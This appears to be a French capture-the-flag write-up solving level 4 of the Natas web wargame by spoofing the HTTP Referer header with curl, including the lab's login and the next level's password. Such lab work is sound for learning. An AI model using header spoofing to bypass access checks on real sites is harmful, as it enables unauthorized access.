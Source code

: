 Hum... Réfléchissons, quel moyen technique permet de fournir des informations de ce genre ? 
- Les Cookies ?
- Les header HTTP ? 

Par défaut j'élimine les cookie car ces derniers serait dur à retrouver sans le code exécuté coté serveur.. 
On va donc se concentrer sur [Les Headers](https://en.wikipedia.org/wiki/List_of_HTTP_header_fields). 

On cherche ici tout header en rapport avec une page précédemment visité, `Referer` semble répondre à notre besoin.
Si nous utilisions **curl** pour interroger notre page avec un header spécifique ?! 

> OUI, il existe des extensions pour ça mais c'est bien plus formateur de le faire via curl 

```bash
curl --header "Referer:http://natas5.natas.labs.overthewire.org/" http://natas4.natas.labs.overthewire.org/
```

Ce premier essaie renvoie une erreur, j'ai oublié de spécifier les identifiants de connexions :

```html
<!DOCTYPE HTML PUBLIC "-//IETF//DTD HTML 2.0//EN">
<html>
<head>
<title>401 Unauthorized</title>
</head><body>
<h1>Unauthorized</h1>
<p>This server could not verify that you
are authorized to access the document
requested.  Either you supplied the wrong
credentials (e.g., bad password), or your
browser doesn't understand how to supply
the credentials required.</p>
<hr>
<address>Apache/2.4.10 (Debian) Server at natas4.natas.labs.overthewire.org Port 80</address>
</body></html>
```

Maintenant on va spécifier les identifiants avec l'option -u :

```bash
curl -u natas4:Z9tkRkWmpt9Qr7XrR5jWRkgOU901swEZ --header "Referer:http://natas5.natas.labs.overthewire.org/" http://natas4.natas.labs.overthewire.org/ 
```

Voila l'identifiant pour le prochain niveau !

```html
<html>
<head>
....
</head>
<body>
<h1>natas4</h1>
<div id="content">
Access granted. The password for natas5 is iX6IOfmpN7AYOQGPwtn3fXpbaJVJcHfq
<br/>
<div id="viewsource"><a href="index.php">Refresh page</a></div>
</div>
</body>
</html>
```
